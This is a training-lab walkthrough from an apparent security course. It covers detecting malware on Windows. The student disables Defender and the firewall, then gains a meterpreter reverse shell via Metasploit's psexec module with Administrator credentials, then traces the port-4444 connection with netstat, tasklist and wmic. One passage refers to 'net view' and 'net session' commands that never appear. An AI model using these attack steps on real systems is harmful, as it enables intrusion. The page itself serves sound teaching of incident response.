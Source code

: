 ![image](https://github.com/user-attachments/assets/068fae26-6e8f-402f-ad69-63a4e6a1f59e)

# Windows CLI

In this lab, we will create **malware**, run it, and use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn is to actually just dig in and do it.  

Let’s get started by opening a terminal.  

![](attachments/OpeningKaliInstance.png)

Alternatively, you can open a **Kali** instance by clicking the **Kali** logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before going any further, we need to ensure that **Windows Defender** is disabled. To do this, open a Windows **Powershell** by clicking the icon in the taskbar.

![](attachments/OpeningPowershell.png)

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/windowscli_disabledefender.png)

>[!NOTE]
>
>If you get red errors that say 
><pre>A general error occurred that is not covered by a more specific error code.</pre> 
>
>That is OK!  It means **Defender** was already disabled. </br>
>We run the above command to ensure that it is off for this lab.  It has a sneaky way of turning back on again...

Next, lets ensure the firewall is disabled.

<pre>netsh advfirewall set allprofiles state off</pre>

Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

>[!NOTE]
>
>That is a very bad password. </br> Come up with something better. But, please remember it.

Now that we disabled **Windows Defender**, we need to get our windows IP address for later.

Within the Powershell window, please run the following command:

<pre>ipconfig</pre>

>[!IMPORTANT]
>
>Please remember that your Windows IP address is not the same as your ADHD Linux System IP address. 
>
>In this instance, we need our **Windows IP**, so write it down for later!

Now head back to your **Kali** terminal.

We need to gain root access. To do that, run the following command:

<pre>sudo su -</pre>

Next, we will start the **Metasploit** handler with the following command:

<pre>msfconsole -q</pre>

It will take a second to connect, be patient!

When connected, our terminal will look like this.

![](attachments/windowscli_msfconnected.png)

Next, run the following command:

<pre>use exploit/windows/smb/psexec</pre>

![](attachments/windowscli_useexploit.png)

We will continue by running this command to set the location of the payload:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

We also need to set the **RHOST IP** for the Windows system by using the following command:

<pre>set RHOST 10.10.1.209</pre>

>[!NOTE]
>
>**Remember, your IP will be different!**


![](attachments/windowscli_sets.png)

Next, we need to set the **SMB** username and password. 

<pre>set SMBUSER Administrator</pre>

<pre>set SMBPASS T@GEq5%r2XJh</pre>

>[!NOTE]
>
>This will be the password you set earlier. </br>
>Hopefully your password is different than mine!

It should look like this:

![](attachments/windowscli_setuserpass.png)

Now, we can run the exploit command

<pre>exploit</pre>

![](attachments/windowscli_exploit.png)

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view).  It would also tell us if an attacker had mounted a share on this system (net session). 

We are not done with network connections yet.  Lets try looking at our malware!

Go ahead an open an instance of **Windows PowerShell**.

![](attachments/OpeningPowershell.png)

Run the following command:

<pre>netstat -naob</pre>

![](attachments/windowscli_netstat.png)

Well, that is a lot of data. This is showing us which ports are open on this system **(0.0.0.0:portnumber)** or **(LISTENING)**.
As well as the remote connections that are made to other systems **(ESTABLISHED)**.  In this example, we are really interested in the **ESTABLISHED** connections:

![](attachments/windowscli_established.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

<pre>netstat -f</pre>

I like to run **"-f"** with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/windowscli_-f.png)

Now we see our last connection with the **port 4444**.

Let's get the Process ID **(PID)** from the output of our **"netstat -naob"** command that we ran earlier so we can dig a little deeper.

>[!TIP]
>
>Look for port **4444** and **[powershell.exe]**

![](attachments/windowscli_pid.png)

We will start with tasklist  

<pre>tasklist /m /fi "pid eq [PID]"</pre>

>[!NOTE]
>
>**YOUR PID WILL BE DIFFERENT!**

![](attachments/windowscli_tasklist.png)

We can see the loaded **DLL's** above.  As we can see, there is not a whole lot to see here:

Let's keep digging with **wmic**:

<pre>wmic process where processid=[PID] get commandline</pre>

![](attachments/windowscli_wmic.png)

Ahh!!  Now we can see that the file was launched from the **command line**!  We know this because there are no options.

Let's see if we can see what spawned the process with **wmic**.

<pre>wmic process get name,parentprocessid,processid | select-string [PID]</pre>

![](attachments/windowscli_selectstring.png)

Lets go through the steps we took to hunt for a malicious process

1. We found its parent process ID.  

2. We did a search on that process ID.  

3. As you can see above, it was launched by the cmd.exe process.  

4. Note that the search we just did may turn up some other things launched by the command line as well.

***                                                                 

<b><i>Continuing the course? </br>[Next Lab](/IntroClassFiles/Tools/IntroClass/Wireshark/Wireshark.md)</i></b>

<b><i>Want to go back? </br>[Previous Lab](/IntroClassFiles/Tools/IntroClass/TCPDump/TCPDump.md)</i></b>

<b><i>Looking for a different lab? </br>[Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---







 

